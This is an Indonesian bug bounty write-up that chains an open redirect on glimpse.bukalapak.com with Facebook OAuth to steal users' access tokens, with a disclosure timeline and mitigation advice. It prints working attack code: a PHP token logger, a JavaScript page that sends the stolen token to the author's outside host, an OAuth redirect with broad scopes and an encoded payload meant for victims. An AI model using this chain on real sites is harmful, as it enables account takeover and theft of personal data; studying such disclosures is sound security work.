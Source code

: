 ```yaml
---
title: "Open redirect -> Account Takeover pada bukalapak.com"
date: 2020-07-14 01:38:00 +0000
modified: 2020-07-14
description: "Escalating Open Redirect into Account Takeover pada Bukalapak.com"
comments: true
tags:
- bukalapak
mathjax: false
category:
- Bugbounty
private: false

---
```

### Open Redirect  

Open Redirect adalah kerentanan dimana aplikasi menerima input dari pengguna yang akan digunakan untuk perpindahan halaman atau redirect pada aplikasi dan biasanya input tersebut tidak mempunyai filter atau dapat dibypass, input dari user yang akan di gunakan sebagai redirect tersebut yang menyebabkan penyalahgunaan fitur tersebut.

### Account Takeover 

Account Takeover adalah mengambil alih akses akun orang lain sama seperti artinya secara harviah, untuk melakukan account takeover kita dapat menggunakan berbagai macam cara, salah satunya adalah yang akan dijelaskan pada report ini yaitu menggabungkan kerentanan *Open Redirect* dengan *Facebook Oauth* untuk mendapatkan *token* dari akun orang lain, sehingga dapat mengambil alih akses terhadap akun yang dimiliki orang lain.  

###  Kesimpulan Masalah   

Open redirect yang ditemukan ada pada domain glimpse.bukalapak.com dengan parameter link, contoh open redirect nya adalah : [https://glimpse.bukalapak.com/redirect?link=https://evil.com](https://glimpse.bukalapak.com/redirect?link=https://evil.com "https://glimpse.bukalapak.com/redirect?link=https://evil.com") tapi karena bukalapak tidak menerima *Open Redirect* yang meliki impact keamanan yang kecil, maka saya harus mencari cara untuk memanfaatkan celah yang ada untuk mendapatkan celah yang mempunyai impact lebih besar dari pada sekedar *Open Redirect*.  

![Bukalapak Details](/images/bukalapak/redir.PNG)

saya mencoba memanfaatkan kelemahan tersebut(open redirect) agar bisa meningkatkan tingkat resikonya dengan *oauth* (facebook/google) dan dapat melakukan *account takeover*. 

fitur login dengan facebook yang berada di url berikut:   

    https://www.facebook.com/v3.0/dialog/oauth?client_id=727108917352926&redirect_uri
    =https%3A%2F%2Fctfs.me&response_type=token

Oauth facebook memiliki 3 parameter yang seharusnya ada pada requestnya yaitu **client_id** dimana **727108917352926** adalah ID milik aplikasi bukalapak di facebook , kemudian **redirect_uri** adalah url yang akan menerima callback dari facebook **Yang hanya bisa di arahkan kepada domain milik bukalapak yaitu \*.bukalapak.com** , karena kita sudah memiliki open redirect maka attack scenario ini dapat mudah dijalankan, jika kita menggunakan domain selain bukalapak sebagai **redirect_uri** nya maka kita akan mendapatkan error berikut :   

![Error FB Oauth](/images/bukalapak/error.PNG)

Skenario yang saya buat untuk melancarkan attack ini adalah sebagai berikut :   

![Skenario](/images/bukalapak/skenario.PNG)

saya menggunakan 3 file berikut untuk mendapatkan token dari user, tanpa adanya user interaction sama sekali hingga tokennya tersimpan di dalam log yang saya persiapkan.   

```
    //file save.php
    <?php
    $file = fopen("token_facebook_log.txt","a");
    fwrite($file,@$_GET['data']."\n");
    fclose($file);
    ?>
```    

```
    //file steal.html
    <h2> 😈😈😈</h2>
    <script>
     let token = window.location.hash.substring(1);
     //alert("YOUR TOKEN IS MINE: "+token);
     const Http = new XMLHttpRequest();
     const url='https://security.ctfs.me/save.php?data='+token;
     Http.open("GET", url);
     Http.send();
     Http.onreadystatechange=(e)=>{
     console.log(Http.responseText)
     }
    </script>
    <meta http-equiv="refresh" content="1; url=https://bukalapak.com" />
```

```
    //file trusted.php
    <?php
    header("Location:
    https://www.facebook.com/v3.0/dialog/oauth?client_id=727108917352926&redirect_uri
    =https%3A%2F%2Fglimpse.bukalapak.com%2Fredirect%3Flink%3Dhttps://security.ctfs.me
    /steal.html&response_type=token&scope=email%2C+groups_access_member_info%2C+p
    ublish_to_groups%2C+user_age_range%2C+user_birthday%2C+user_events%2C+user_fri
    ends%2C+user_gender%2C+user_hometown%2C+user_likes%2C+user_link%2C+user_loca
    tion%2C+user_photos%2C+user_posts%2C+user_tagged_places%2C+user_videos%2C+pu
    blish_actions%2C+manage_pages%2C+instagram_basic");
    ?>
```

Untuk validasi token yang kita dapatkan ke facebook bisa menggunakan [https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2](https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2 "https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2"), dan ternyata ketika user tersebut menggunakan Mobile Apps Bukalapak token yang di grant mempunyai waktu expired **NEVER** yang berarti hanya perlu 1x mengambil token dari korban dan attacker dapat login menggunakan token tersebut kapanpun(**NEVER**).

![FB Debug](/images/bukalapak/debug.PNG)  

    // Final Payload ( untuk di-kirimkan kepada korban )
    https://glimpse.bukalapak.com/redirect?link=%68%74%74%70%73%3a%2f%2f%73%65%6
    3%75%72%69%74%79%2e%63%74%66%73%2e%6d%65%2f%74%72%75%73%74%65%64
    %2e%70%68%70

User tidak diperlukan melakukan apapun **jika sudah terauthentikasi bukalapaknya dengan facebook** (jika belum maka aplikasi bukalapak akan meminta izin ke facebook) dan kemudian token user tersebut akan dikirim kepada log attacker.


### Video POC

<iframe width="560" height="315" src="https://www.youtube.com/embed/CR3Uyw7ydhg" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

### Timeline

**Sent Report to security@bukalapak.com:** Jan 17, 2019, 12:49 AM
**Bukalapak Response(Verify):** Jan 17, 2019, 11:43 AM
**Bukalapak Response(Known Issue):** Jan 18, 2019, 2:34 PM
**Publish Writeup:** Jul 14, 2020 9:00 PM

### Saran

Untuk mitigasi celah keamanan ini bisa dengan menerapkan whitelist terhadap redirect yang ada pada glimpse.bukalapak.com atau merubah konfigurasi aplikasi facebook-nya agar hanya menerima domain tertentu saja untuk menerima callback token dari oauth, jangan menggunakan wildcard **\*.bukalapak.com** karena bukalapak yang memiliki banyak domain dan asset dibelakang domain tersebut jadi akan sulit untuk memastikan semua asset tidak memiliki kerentanan seperti *open redirect*.
